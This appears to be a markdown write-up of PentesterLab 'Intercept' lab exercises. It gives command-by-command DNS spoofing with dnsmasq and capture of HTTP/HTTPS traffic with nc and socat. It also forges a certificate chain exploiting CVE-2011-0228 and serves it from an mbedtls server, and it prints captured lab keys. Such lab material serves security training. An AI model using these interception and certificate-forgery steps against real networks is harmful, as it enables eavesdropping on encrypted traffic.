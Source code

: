 ## Intercept Badge

### Intercept 01

Setting up `dnsmasq` on `$vps`

```
# https://linuxhint.com/dnsmasq_ubuntu_server/#:~:text=dnsmasq%20is%20available%20in%20the,and%20disable%20systemd%2Dresolved%20services.
$ sudo service dnsmasq stop
$ sudo dnsmasq -C dnsmasq.conf --no-daemon
$ dig @localhost test1.pentesterlab.com
$ host test1.pentesterlab.com 127.0.0.1
```

Intercepting DNS request

```
$ sudo tcpdump -i eth0 udp port 53
$ echo "18.191.42.249    mitm1.pentesterlab.com" > dnsmasq.hosts 
```

Intercepting HTTP request

```
$ sudo nc -lvp 80
Listening on [0.0.0.0] (family 0, port 80)
Connection from 163-172-214-251.rev.poneytelecom.eu 48215 received!
GET / HTTP/1.1
Host: mitm1.pentesterlab.com
PTL_KEY: 4905e0a2-ed2d-4031-a31a-1221c95e488f
Connection: Close
```

### Intercept 02

- To create a simple TCP server with TLS support we need to create a certificate using openssl.
- It's worth automating this as you may do this often during a security assessment.

```
$ cat create_cert.sh

FILENAME=server
# Generate a public/private key pair:
openssl genrsa -out $FILENAME.key 1024
# Generate a self signed certificate:
openssl req -new -key $FILENAME.key -x509 -sha256 -days 3653 -out $FILENAME.crt
# Generate the PEM file by just appending the key and certificate files:
cat $FILENAME.key $FILENAME.crt >$FILENAME.pem
```

After intercepting DNS request, we intercept HTTPS requests

```
$ echo "18.191.42.249    mitm2.pentesterlab.com" > dnsmasq.hosts
$ sudo dnsmasq -C dnsmasq.conf --no-daemon
$ sudo nc -lvp 443 # nc doesn't do https
```

We need to use `socat` for https

```
$ sudo socat -v -v openssl-listen:443,reuseaddr,fork,cert=$FILENAME.pem,cafile=$FILENAME.crt,verify=0 -
> 2020/06/07 16:10:44.034462  length=114 from=0 to=113
GET / HTTP/1.1\r
Host: mitm2.pentesterlab.com\r
PTL_KEY: 3cfb4ed5-8529-4d17-998a-7ee3b6ebd2b1\r
Connection: Close\r
```

### Intercept 03

First get the DNS request and intercept HTTPS using that
```
$ sudo tcpdump -i eth0 udp port 53
$ echo "18.191.42.249    mitm3.pentesterlab.com" > dnsmasq.hosts
$ sudo dnsmasq -C dnsmasq.conf --no-daemon
```

Use the provided certificate to set up a TLS listener

```
# after downloading hackingwithpentesterlab.link.crt, GandiStandardSSLCA2.pem and hackingwithpentesterlab.link.key from pentesterlab.com
$ sudo socat openssl-listen:443,reuseaddr,fork,cert=hackingwithpentesterlab.link.crt,cafile=GandiStandardSSLCA2.pem,key=hackingwithpentesterlab.link.key,verify=0 -  
GET / HTTP/1.1
Host: mitm3.pentesterlab.com
PTL_KEY: 0ca2d12c-37f5-4292-a8b6-6a015bb52161
Connection: Close

```

### CVE-2011-0228

Validating a certificate's validity can be divided into multiple steps:

- Ensuring the current certificate did not expired and is valid for the current time (the issue date is not in the future)..
- Ensuring that the current certificate is signed by a valid certificate authority (CA).
- Ensuring that the parent certificate is a certificate authority.

These checks are performed for all certificates in the certificate chain to established a chain of trust. The first certificate (root CA) is embedded in your browser/system and is already trusted. If all certificates in the chain can be validated, the leaf certificate (last certificate in the chain) can be trusted.

This issue is located in the last step of the verification: "ensuring that the parent certificate is a certificate authority". 

```
$ openssl x509 -in hackingwithpentesterlab.link.crt -text
$ openssl genrsa -out mitm4.pentesterlab.com.key 2048 #fqdn=mitm4.pentesterlab.com
$ openssl req -new -sha256 -key mitm4.pentesterlab.com.key -out mitm4.pentesterlab.com.csr
```

Directory structure required to create certificate out of csr

```
$ mkdir -p demoCA/private demoCA/newcerts
$ cp hackingwithpentesterlab.link.key demoCA/private/cakey.pem
$ cp hackingwithpentesterlab.link.crt demoCA/cacert.pem
$ touch demoCA/index.txt
$ echo 01 > demoCA/serial
```

Signing the csr and creating the chain `myca.pem`

```
$ openssl ca   -config openssl.cnf -verbose  -out mitm4.pentesterlab.com.crt -infiles mitm4.pentesterlab.com.csr
$ cat mitm4.pentesterlab.com.crt hackingwithpentesterlab.link.crt GandiStandardSSLCA2.pem > myca.pem
```

Setting up the malicious server (openssl doesn't work on an invalid chain)

```
$ wget https://tls.mbed.org/download/mbedtls-2.2.1-apache.tgz
$ tar -zxf mbedtls-2.2.1-apache.tgz
$ cd mbedtls-2.2.1
$ apt-get update && apt-get upgrade #hygiene
$ apt-get install build-essential
$ make
```

Running the server

```
$ echo "18.191.42.249    mitm4.pentesterlab.com" > dnsmasq.hosts
$ sudo dnsmasq -C dnsmasq.conf --no-daemon
$ sudo ./mbedtls-2.2.1/programs/ssl/ssl_server

  . Loading the server cert. and key... ok
  . Bind on https://localhost:443/ ... ok
  . Seeding the random number generator... ok
  . Setting up the SSL data.... ok
  . Waiting for a remote connection ... ok
  . Performing the SSL/TLS handshake... ok
  < Read from client: 114 bytes read

GET / HTTP/1.1
Host: mitm4.pentesterlab.com
PTL_KEY: 80c8b7d1-1e4c-4fa8-8390-939b16edb127
Connection: Close
```

### CVE-2014-1266

